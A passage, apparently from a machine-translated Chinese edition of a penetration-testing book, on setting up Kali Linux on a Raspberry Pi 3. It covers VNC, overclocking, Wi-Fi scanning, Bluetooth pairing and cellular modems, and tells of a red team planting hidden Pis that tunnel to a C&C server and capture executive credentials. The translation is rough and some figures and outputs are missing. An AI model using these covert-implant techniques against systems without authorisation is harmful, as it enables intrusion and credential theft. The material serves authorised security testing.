7.  为了在启动时启用此功能，Kali 论坛提供了几种方法，但该线程上有一个很棒的脚本，可以引导我们完成一个非常健壮的脚本，以确保每次重新启动时它都处于活动状态：[https://forums.kali.org/showthread.php?25472-Top-Configuration-Changes-after-installation-Kali-Linux-on-Raspberry-Pi-2](https://forums.kali.org/showthread.php?25472-Top-Configuration-Changes-after-installing-Kali-Linux-on-Raspberry-Pi-2)。

随便乱逛吧。VNC 不提供默认安全性，因此我们可能希望通过 SSH 进行隧道传输，甚至将其与 stunnel 配对。我们使用 GUI 的频率因工作或个人而异-我们发现，拥有 GUI 是一个很好的培训助手，但太麻烦了，无法在不引起怀疑的情况下继续使用目标环境。

# 超频

超频覆盆子 Pi 可以提高性能，但我们有可能大大缩短硬件的使用寿命，并且肯定会使我们通过套件供应商获得的任何保证无效。鉴于 Raspberry Pi 3 是一个功能更强大的平台，具有 1GHz+四核处理器，因此几乎没有理由在渗透测试中超频我们的 Raspberry Pi 3。如果我们发现我们需要更多的处理马力，在大多数情况下，我们最好使用更高性能的平台来完成工作负载，并利用 Raspberry Pi 3 进行遥感和采集。无论哪种方式，我们都应该在继续之前充分意识到这一风险。

请注意，Raspberry Pi 3 在超频、第三方工具和程序（搜索引擎在这里可以提供巨大帮助）方面仍然没有得到官方支持，如[中提供的工具和程序 http://www.jackenhack.com/raspberry-pi-3-overclocking/](http://www.jackenhack.com/raspberry-pi-3-overclocking/) 将需要以更高的时钟速度运行。

### 注

超频需要 Raspberry Pi 提供更多的电源，因此，如果我们使用弱电源为其供电，使用该电源进行超频可能会导致不可逆转的损坏或性能问题。

# 设置无线接口

随着无线现在支持包括一个 IEEE 802.11n 收发器，我们现在可以利用 Kali 为此提供的固有支持。许多商业工具，例如来自 HACK5®的菠萝，都利用了无线黑客技术，我们将在本书后面的部分中看到树莓 Pi 3 有多少种可能。由于 Kali Linux 支持开箱即用，我们应该能够看到它是可用的，而无需我们的任何努力，并且可以使用`iwconfig`命令检查设置和检测：



我们没有在这里预先配置任何东西。如果我们想将其用作连接的主要接口，我们可以使用需要连接和使用网络的所有默认信息对其进行配置，或者如果使用**Xfce**桌面（本地登录或通过 RDP 或 VNC 登录），我们可以使用网络管理工具选择要连接的无线网络。

由于我们正在进行渗透测试，而无线技术很可能是利用目标网络的一种手段，因此我们将保留其开放性。如果我们想使用此接口进行数据通信，我们需要做的就是在预加载驱动程序时使用`nano /etc/network/interfaces`命令修改此接口的配置：


要打开此界面，可能需要使用我们可以提供的设置（SSID、PSK 等），我们只需输入`ifconfig wlan0 up`并开始扫描，以使用`iwlist wlan0 scanning`命令查看可用内容。在下面的屏幕截图中，我们看到界面正在调查我们附近的许多基站，提供有关 SSID 名称、可用速率、频道的一般质量以及其他字段的信息，这些信息可以帮助我们确定要攻击哪些 SSID，我们如何进行攻击，以及几乎同样重要的信息，哪些 SSID 可能只是噪声：



# 设置蓝牙接口

Raspberry Pi 3 内置蓝牙硬件，在蓝牙相关的黑客和侦察中有潜在的应用。然而，这个板载适配器的功能在 Kali Linux 或大多数其他发行版中还不受支持，只有**Raspian**是唯一的例外。我们曾多次尝试从源代码构建工具，并对许多驱动程序进行了实验，但最终，蓝牙功能（目前）必须来自第三方加密狗，该加密狗已在早期平台（如 Pi 2）上得到验证。

不用担心，USB 蓝牙适配器是另一回事！我们能够轻松地安装各种 USB 蓝牙加密狗，虽然根据品牌和型号可能会有一些细微差别，但大多数遵循类似的工作流程。我们使用了熊猫纳米蓝牙 4.0 加密狗（可在[上获得）https://www.amazon.com/Panda-Bluetooth-4-0-Nano-Adapter/dp/B00BCU4TZE](https://www.amazon.com/Panda-Bluetooth-4-0-Nano-Adapter/dp/B00BCU4TZE) ），并使用以下流程在不到 10 分钟的时间内将其启动并运行：

1.  我们将在这里使用 Kali 的**元包**。这些对我们来说非常方便，因为它们将我们可能想要使用的所有有趣的玩具组合在一种特殊口味的卡利中，并且树莓 Pi 3 的马力比台式机或笔记本电脑的马力要低，我们将能够更好地挤压出更多的性能，同时瞄准我们的应用程序。我们可以使用`apt-get install kali-linux-wireless`安装无线工具（或者在学习环境中，使用`apt-get install kali-linux-full`安装整个分发版）。幸好我们有 32 GB 的 SD 卡正确分区，对吗？
2.  现在我们已经准备好了无线工具，我们将重新启动以确保使用干净的会话，并插入蓝牙适配器。
3.  We can check to ensure that any dongles we attach to the Raspberry Pi 3 are recognized by using `lsusb` :

    

4.  如有必要，我们可以使用`/etc/init.d/Bluetooth start`或`/etc/init.d/Bluetooth restart`启动或重启蓝牙。
5.  We'll now scan to see the adapter is also running in our inventory using `hcitool dev` :

    

6.  If it is not up, use `hciconfig hci0 up` to start it up, and we can now use the `bluetoothctl -a` to enable Bluetooth configuration mode. This will bring us to its own prompt, where we can scan (we'll use `scan on` to begin the scan, and `scan off` to stop the scan):

    

7.  We can recall this list using `devices` , and we can see in our case that there is a **Jam Classic** , which is our Bluetooth-capable speaker. Let's go ahead and trust it using the `trust <MAC address of Bluetooth Device>` command:

    

8.  If we ever wanted to see details on a device, we could dive into them by looking into its `info` :

    

9.  We should now be able to pair with the speaker using the `pair <MAC address of Bluetooth Device>` command, and depending on what the device is, we can begin to use it right away with the `connect` command:

    

在本书中，我们并不打算使用许多友好的蓝牙设备，但事实上，我们确实计划对我们的目标使用蓝牙造成严重破坏。如果我们要为我们的 Raspberry Pi 3 连接到一个实际的键盘或鼠标，我们当然可以使用相同的过程或 GUI 等价物。我们还可以使用此蓝牙适配器帮助我们与手机或正确配置的笔记本电脑关联，以使用蓝牙进行文件传输甚至热点访问。

# 设置 3G 或 4G 调制解调器

我们可以在 Kali Linux 上使用 3G 或 4G USB 调制解调器卡，并通过移动无线网络连接到我们的 Raspberry Pi 3，实现隐蔽的远程访问。每个卡的制造略有不同，因此设置可能会根据蜂窝卡的类型、操作区域和服务提供商而有所不同。在线上有大量关于合法连接使用的信息，但我们很幸运使用了支持 USB 的调制解调器，例如各种可用的 MiFi 设备。蓝牙连接到手机热点在我们这边并不起作用，但这是几个小组正在努力的工作，所以我们预计这种情况很快就会改变。

### 注

虽然可以进行基于手机的黑客攻击，但这超出了本书的范围（技术上和法律上）。我们不认可这种行为，服务提供商在对目标网络进行白帽渗透测试时也不公平。

# 用一个例子来概括

回到本章开头的示例，让我们看看本章中涉及的主题如何应用于现实世界。几家**红队**安全公司现在提供物理和网络安全渗透测试服务，就好像它们是一个持久的、训练有素的威胁。利用他们自己的白帽黑客团队，我们在美国东北部与之互动的几个团队现在使用隐蔽的树莓 Pis 作为传感器，允许他们观察环境，发现环境中的弱点，并将目标数据过滤到他们的 C&C 服务器使用 stunnel 向其赞助商提供证据。

在一个更具创新性的部署场景中，他们在目标公司办公室员工的办公桌上进行电气检查时，将树莓 Pi 嵌入客户自己的公用电箱中。这些传感器建立了对红队 C&C 服务器的反向 SSH 隧道保护访问，并使用本书后面讨论的一些工具，它们能够收集敏感信息以及执行管理助理使用的 CEO 和 COO 凭据。不用说，在向首席执行官汇报的过程中，这一点相当令人惊讶。毫无疑问，首席执行官重新考虑了他的通信和浏览活动，以及共享凭证和缺乏细分对其环境造成的危险。

在[第 3 章](3.html#ch03 "Chapter 3.  Planning the Attack")*计划攻击*中，我们将规划渗透测试的活动阶段，并解释我们如何系统地规划测试，以确保向客户提供最佳建议和发现。